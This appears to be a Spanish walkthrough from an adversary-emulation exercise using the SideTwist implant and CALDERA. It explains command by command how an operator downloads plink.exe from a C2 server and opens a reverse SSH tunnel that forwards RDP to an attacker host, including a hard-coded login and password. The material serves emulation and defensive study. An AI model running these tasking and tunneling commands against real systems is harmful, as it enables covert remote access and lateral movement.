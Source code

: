 #### Flujo de Ejecución Técnica

**Paso 1: Descarga de Plink a THEBLOCK**

Desde la plataforma de ataque Linux, el operador envía comando a SideTwist:

```bash
./evalsC2client.py --set-task goTb '102 c:\users\public\downloads\plink.exe|plink.exe'
```

**Desglose:**
- `102`: Código para descarga de archivo en SideTwist
- `c:\users\public\downloads\plink.exe`: Ruta de destino
- `|plink.exe`: Archivo en servidor C2 a descargar

**Proceso:**
1. SideTwist recibe tarea en próximo beacon (máx. 5 minutos)
2. Descarga plink.exe desde C2 vía HTTP GET
3. Descifra el archivo (XOR)
4. Guarda en `C:\Users\Public\Downloads\plink.exe`

**Nota de implementación CALDERA:**
En la emulación con CALDERA, plink.exe se descarga primero al directorio del agente y luego se copia a Downloads. El resultado final es el mismo.

**¿Qué es Plink?**

Plink (PuTTY Link) es un cliente SSH de línea de comandos que forma parte de la suite PuTTY. Características:
- Cliente SSH para Windows
- Soporta port forwarding (local y remoto)
- No requiere instalación (ejecutable standalone)
- Ampliamente usado de forma legítima (difícil de bloquear)

**Paso 2: Establecimiento del Túnel SSH Reverso**

```bash
./evalsC2client.py --set-task goTb '101 echo y | c:\users\public\downloads\plink.exe -ssh -N -R 192.168.0.4:13389:10.1.0.6:3389 -l saka -pw "$ceKa#zU$Uc4^9yZ" 192.168.0.4'
```

**Desglose del comando:**

1. **`echo y |`**
   - Pipe "y" a plink para aceptar automáticamente host key
   - Primera conexión a servidor SSH requiere confirmación de host key
   - Evita interacción manual

2. **`plink.exe`**
   - Ejecutable de cliente SSH

3. **`-ssh`**
   - Forzar protocolo SSH (vs. telnet/rlogin)

4. **`-N`**
   - No ejecutar comando remoto
   - Solo establecer túnel (no shell interactivo)

5. **`-R 192.168.0.4:13389:10.1.0.6:3389`**
   - **Tipo**: Reverse (Remote) Port Forward
   - **Formato**: `-R [bind_address:]port:host:hostport`
   - **Desglose**:
     - `192.168.0.4:13389`: En el servidor SSH, escuchar en esta IP/puerto
     - `10.1.0.6:3389`: Conectar a esta IP/puerto desde el cliente
   - **Efecto**: Tráfico a 192.168.0.4:13389 se redirige a 10.1.0.6:3389
